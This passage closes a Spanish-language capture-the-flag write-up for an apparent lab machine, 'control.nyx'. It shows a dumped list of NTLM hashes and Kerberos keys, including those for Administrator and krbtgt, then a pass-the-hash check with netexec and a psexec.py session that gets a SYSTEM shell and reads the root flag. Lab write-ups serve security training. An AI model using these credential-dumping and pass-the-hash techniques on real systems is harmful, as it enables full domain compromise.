control.nyx\m.klein:1105:aad3b435b51404eeaad3b435b51404ee:48b20d4f3ea31b7234c92b71c90fbff7:::
control.nyx\d.petrov:1106:aad3b435b51404eeaad3b435b51404ee:48b20d4f3ea31b7234c92b71c90fbff7:::
control.nyx\a.hansen:1107:aad3b435b51404eeaad3b435b51404ee:48b20d4f3ea31b7234c92b71c90fbff7:::
CONTROLER$:1000:aad3b435b51404eeaad3b435b51404ee:e39a05fcea69e57068313e72b7cef96c:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9a8c983c709e851258912c3b1d71c9b05faf1724f522b4f32e57f7bef3366773
Administrator:aes128-cts-hmac-sha1-96:0ca176565c5b47fda5e2ab4f53fbb9d3
Administrator:des-cbc-md5:ce9785d980c1a7f8
krbtgt:aes256-cts-hmac-sha1-96:98eaf007fcf3006a8526cba84496bffc6835fbb9f6291c4a5c467be83c10e6ac
krbtgt:aes128-cts-hmac-sha1-96:4f348630f6cf1829080f97ad008432c0
krbtgt:des-cbc-md5:6bdaae6d83f7ce08
control.nyx\j.levy:aes256-cts-hmac-sha1-96:0e6ca71073eab87d2e5195b9da28498dfa76a62f7e5d5bd22b6fb2c05677daa0
control.nyx\j.levy:aes128-cts-hmac-sha1-96:7a0a723a44a010bb3da571a16f6edefb
control.nyx\j.levy:des-cbc-md5:54918ae57a10f2bf
control.nyx\b.lewis:aes256-cts-hmac-sha1-96:b4f57e910e3bdea0ad3bdc1ad2513759f2f88eb8650f5f470ac08f9b210a2198
control.nyx\b.lewis:aes128-cts-hmac-sha1-96:7f2031c82ee5bc662dc3cd7cc3235a66
control.nyx\b.lewis:des-cbc-md5:a4132f64d5ce670b
control.nyx\m.klein:aes256-cts-hmac-sha1-96:4a793709dcdcf73950b685f896a9848e3103d5a18b01c7e5d59ba38c57b8672b
control.nyx\m.klein:aes128-cts-hmac-sha1-96:57aeb83d17ac7f9ca2a6b9237d40dc70
control.nyx\m.klein:des-cbc-md5:f19bdfdad5d3b0a1
control.nyx\d.petrov:aes256-cts-hmac-sha1-96:33fe5c70d3443ebe7ecde982ac1bd96b56827d38144666f8a6b8826950697f3a
control.nyx\d.petrov:aes128-cts-hmac-sha1-96:bc33a875e59d41c1a601fd7a2519d659
control.nyx\d.petrov:des-cbc-md5:c29d76f7b62aab92
control.nyx\a.hansen:aes256-cts-hmac-sha1-96:fd82c8b8af1452f8eede5b2ad82a7a9d0a82a3f6bfcd3a69d075f88fd40b0fe6
control.nyx\a.hansen:aes128-cts-hmac-sha1-96:8606d5df957b06541cbb988be5835c80
control.nyx\a.hansen:des-cbc-md5:34e05b94b37564c1
CONTROLER$:aes256-cts-hmac-sha1-96:4d6f34b2b4583bbfe640913f7002e7bf2a97159dd20d99e890e708e357e598b8
CONTROLER$:aes128-cts-hmac-sha1-96:6b2555cf8f56293079e8fa47aad68aa1
CONTROLER$:des-cbc-md5:8a3b2c8c67759843
[*] Cleaning up...
```

Podemos comprobar que este hash es válido con `netexec` haciendo Pass The Hash.
```console
nxc smb 192.168.2.6 -u Administrator -H '48b20d4f3ea31b7234c92b71c90fbff7'
SMB         192.168.2.6     445    CONTROLER        [*] Windows 10 / Server 2019 Build 17763 x64 (name:CONTROLER) (domain:control.nyx) (signing:True) (SMBv1:False)
SMB         192.168.2.6     445    CONTROLER        [+] control.nyx\Administrator:48b20d4f3ea31b7234c92b71c90fbff7 (Pwn3d!)
```

Y para terminar podemos conseguir una consola interactiva como `nt authority\system` con `psexec`
```console
psexec.py -target-ip 192.168.2.6 -dc-ip 192.168.2.6 -no-pass -hashes ':48b20d4f3ea31b7234c92b71c90fbff7' control.nyx/Administrator@controller.control.nyx
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.2.6.....
[*] Found writable share ADMIN$
[*] Uploading file meDRydBL.exe
[*] Opening SVCManager on 192.168.2.6.....
[*] Creating service wNhF on 192.168.2.6.....
[*] Starting service wNhF.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Podemos leer la flag de `root`
```console
C:\Users\Administrator\Desktop> type root.txt
b43e4c1b7df273...
```

¡Y ya estaría!

Happy Hacking! 🚀